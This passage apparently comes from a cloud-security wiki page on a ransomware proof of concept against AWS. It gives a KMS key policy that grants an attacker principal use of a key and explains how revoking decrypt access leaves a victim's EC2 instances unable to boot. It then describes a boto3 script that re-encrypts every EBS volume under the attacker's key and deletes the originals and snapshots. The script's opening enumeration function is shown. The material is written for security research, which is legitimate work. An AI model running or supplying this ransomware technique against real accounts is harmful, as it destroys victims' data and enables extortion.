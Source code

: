 ```json
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*"
        },
        {
            "Sid": "Allow attachment of persistent resources",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:CreateGrant",
                "kms:ListGrants",
                "kms:RevokeGrant"
            ],
            "Resource": "*",
            "Condition": {
                "Bool": {
                    "kms:GrantIsForAWSResource": "true"
                }
            }
        }
    ]
}
```

Wait a moment for the newly set key policy to propagate. Then return to the 'victim' account and attempt to attach one of the newly encrypted EBS volumes. You'll find that you can attach the volume.

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

But when you attempt to actually start the EC2 instance back up with the encrypted EBS volume it'll just fail and go from the 'pending' state back to the 'stopped' state forever since the attached EBS volume can't be decrypted using the key since the key policy no longer allows it.

![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

This the python script used. It takes AWS creds for a 'victim' account and a publicly available AWS ARN value for the key to be used for encryption. The script will make encrypted copies of ALL available EBS volumes attached to ALL EC2 instances in the targeted AWS account, then stop every EC2 instance, detach the original EBS volumes, delete them, and finally delete all the snapshots utilized during the process. This will leave only encrypted EBS volumes in the targeted 'victim' account. ONLY USE THIS SCRIPT IN A TEST ENVIRONMENT, IT IS DESTRUCTIVE AND WILL DELETE ALL THE ORIGINAL EBS VOLUMES. You can recover them using the utilized KMS key and restore them to their original state via snapshots, but just want to make you aware that this is a ransomware PoC at the end of the day.

```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
    instances = ec2_client.describe_instances()
    instance_volumes = {}
    for reservation in instances['Reservations']:
        for instance in reservation['Instances']:
            instance_id = instance['InstanceId']
            volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
            instance_volumes[instance_id] = volumes
```
